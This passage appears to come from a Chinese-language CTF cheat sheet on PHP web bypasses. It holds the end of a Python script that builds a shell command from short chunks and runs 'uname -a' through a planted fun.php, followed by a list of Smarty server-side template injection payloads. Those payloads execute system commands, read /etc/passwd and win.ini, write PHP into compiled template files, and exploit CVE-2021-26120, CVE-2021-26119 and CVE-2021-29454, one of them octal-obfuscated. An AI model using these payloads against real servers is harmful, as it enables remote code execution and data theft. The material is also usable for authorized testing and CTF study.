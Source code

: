     s = r.get(reset)
    for i in payload:
        assert len(i) <= 4
        s = r.get(cmd + i)
        print '[%d]' % s.status_code, s.url
        sleep(0.1)
    s = r.get(sandbox + 'fun.php?cmd=uname -a')
    print '[%d]' % s.status_code, s.url
    print s.text
    ```

    

### 模板引擎

对于PHP的模板引擎，很有可能是smarty或者twig。

根据流程图测试：

![image-20220309192940209](https://lazzzaro.github.io/2020/05/18/web-PHP%E7%BB%95%E8%BF%87/image-20220309192940209-16468253816721.png)

#### smarty

复制

```
X-Forwarded-For: {{system("ls")}} （有回显）
{$smarty.version} （smarty版本号）
{php}phpinfo();{/php} （废弃）
{if phpinfo()}{/if}
{self::getStreamVariable(“file:///etc/passwd”)} （旧版本）

{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}

{$smarty.template_object->smarty->disableSecurity()->display('string:{system(\'id\')}')}

{function name='rce(){};system("id");function '}{/function}

# Smarty3 
string:{include file='C:/Windows/win.ini'}

string:{function name='x(){};system(whoami);function '}{/function} （CVE-2021-26120，Smarty<3.1.39）

string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')} （CVE-2021-26119，Smarty=3.1.44/4.1.0）

eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'} （CVE-2021-29454，PHP7，Smarty<3.1.42/<4.0.2）
```
